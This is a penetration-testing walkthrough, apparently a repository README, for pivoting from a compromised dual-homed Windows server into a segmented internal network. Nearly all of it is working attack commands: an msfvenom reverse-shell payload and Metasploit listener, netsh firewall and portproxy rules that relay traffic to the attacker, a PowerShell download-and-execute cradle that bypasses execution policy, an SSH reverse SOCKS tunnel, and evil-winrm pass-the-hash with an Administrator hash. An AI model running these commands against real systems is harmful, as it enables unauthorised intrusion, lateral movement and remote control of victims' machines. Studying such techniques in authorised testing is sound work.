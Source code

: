 ## Reverse SSH Tunnel Method
As a penetration tester, you are expected to know how to pivot between hosts even when they reside on segmented networks. Segmented hosts are typically in-scope and often engagement targets. The following example examines one method to accomplish segmented network pivoting via a dual-homed server compromised by the attacker without writing any third-party tools to disk.
***
### Simplified Segmented Network
![Segmented Network Example](segmented-network-live-off-the-land-example.png)

### Simplified Segmented Network Details
The following are the relevant example details:
```plaintext
Attacker IP:
	192.168.75.85

Dual-Homed Compromised Host (Windows x64) IPs:
	192.168.200.200
	10.10.1.200

Target Internal Client (Windows x64) IP:
	10.10.1.50

Intended Pivot:
	192.168.75.85 -> 192.168.200.200 -> 10.10.1.50

Additional Route Details:
	192.168.75.85 -> 10.10.1.50 = No Route To Host
	10.10.1.50 -> 192.168.75.85 = No Route To Host
```

### Assumptions
1. Dual-Homed Compromised Host is already compromised by the attacker
2. The attacker has escalated their privileges to Administrator, SYSTEM, or equivalent
3. Interaction via RDP, WinRM, webshell, xp_cmdshell, etc., with Target Internal Client is already directly possible via session (RDP or otherwise) from Dual-Homed Compromised Host.
4. The unaltered MSFVenom payload is sufficient to bypass defenses such as AMSI and Defender. During real engagements default payloads like this should not be used. For the purposes of simplifying this example, we assume the payload will execute properly.
---
### Step-By-Step Instructions For Pivot
1. (Kali) Make payload and place in apache default webroot. Note that the IP address in the command belongs to the Dual-Homed Compromised Host. In a later step we configure the Dual-Homed Compromised Host to forward the shell traffic to the attacker's Kali
```zsh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.1.200 LPORT=8669 -f psh -o /var/www/html/win-x64-8669.txt;
```
2. (Kali) Start apache2 to host payload
```zsh
sudo service apache2 start;
```
3. (Kali) Start MSFConsole's multi/handler to receive callback shell
```zsh
msfconsole -q -x "use multi/handler; set PAYLOAD windows/x64/shell_reverse_tcp; set LHOST tun0; set LPORT 8669; set ExitOnSession false; exploit -j";
```
4. (Compromised Host) Open up TCP port 4422. Used to reach the attacker on port 80 to download payload
```powershell
netsh advfirewall firewall add rule name="TCP Port 4422 Allow In" dir=in action=allow protocol=TCP localport=4422;
```
5. (Compromised Host) Redirect TCP traffic received on 4422 (listening on internal 10.10.1.200) and redirect it to attacker at 192.168.75.85 port 80
```powershell
netsh interface portproxy add v4tov4 listenport=4422 listenaddress=10.10.1.200 connectport=80 connectaddress=192.168.75.85;
```
6. (Compromised Host) Open up TCP port 8669. Used to reach the attacker on port 8669 for callback shell
```powershell
netsh advfirewall firewall add rule name="TCP Port 8669 Allow In" dir=in action=allow protocol=TCP localport=8669;
```
7. (Compromised Host) Redirect TCP traffic received on 8669 (listening on internal 10.10.1.200) and redirect it to attacker at 192.168.75.85 port 8669
```powershell
netsh interface portproxy add v4tov4 listenport=8669 listenaddress=10.10.1.200 connectport=8669 connectaddress=192.168.75.85;
```
8. Using exploit, RDP / WinRM / other connection from compromised host to target internal host, download "win-x64-8669.txt" from attacker. Note that the IP address used is the compromised host and the port (4422) is the one redirected to the attacker at 192.168.75.85 port 80
```powershell
powershell -ep bypass -c "(New-Object System.Net.WebClient).DownloadString('http://10.10.1.200:4422/win-x64-8669.txt') | IEX"
```
9. Receive remote shell in MSFConsole
***
***
### Additional Pivoting Option via Reverse SSH Tunnel
In some cases, you will want to have a socket opened on the Compromised Dual-Homed Host for your tools, such as CrackMapExec, Evil-WinRM, SQLMap, etc., to tunnel through. Doing so allows your local tools to work with proxychains to reach and target otherwise unreachable hosts on segmented networks. To make this socket, we can use the SSH client on the compromised host to SSH into our Kali machine and open a socket locally (on Kali) that we can pivot through.

Before continuing, first ensure you have proxychains4 setup:
```zsh
sudo apt update
sudo apt install proxychains4
```

#### Step-By-Step Instructions For SSH Reverse Tunnel
1. Create a new Kali user and ensure they are allowed to SSH into your instance. (Alternatively, use the provided script named `generate-ssh-user.sh` to create, and delete when finished with the `--clean` flag, temporary ssh users.)
2. Using PowerShell on the Compromised Dual-Homed Host, SSH into your Kali machine using the following command (only use the "-i" option if you are using an identity file for SSH authentication to your Kali machine and have placed this file on the Compromised Host):
```zsh
ssh -R 1080 <generated_user>@<kali_IP_address> -i <file_path_to_private_identity_file_if_using_one>
```
3. Ensure your `/etc/proxychains4.conf` has `socks5 127.0.0.1 1080` under `[ProxyList]`. An example of a working `proxychains4.conf` file, with all comments removed, is shown below:
```plaintext
strict_chain
proxy_dns
remote_dns_subnet 224
tcp_read_time_out 15000
tcp_connect_time_out 8000
[ProxyList]
socks5 127.0.0.1 1080
```
4. Using proxychains, you can now reach any host the Compromised Host can reach as long as the SSH session to your Kali machine remains intact. The following is an example command you could use to obtain a remote shell directly from Kali if WinRM is enabled on the Target Internal Client (10.10.1.50) and you have the local Administrator password hash, which is `ddce269a1e3d054cae349621c198dd52` in this example. (Note that the `-q` flag suppresses proxychains output but is not required)
```zsh
proxychains -q evil-winrm -i 10.10.1.50 -u Administrator -H ddce269a1e3d054cae349621c198dd52
```
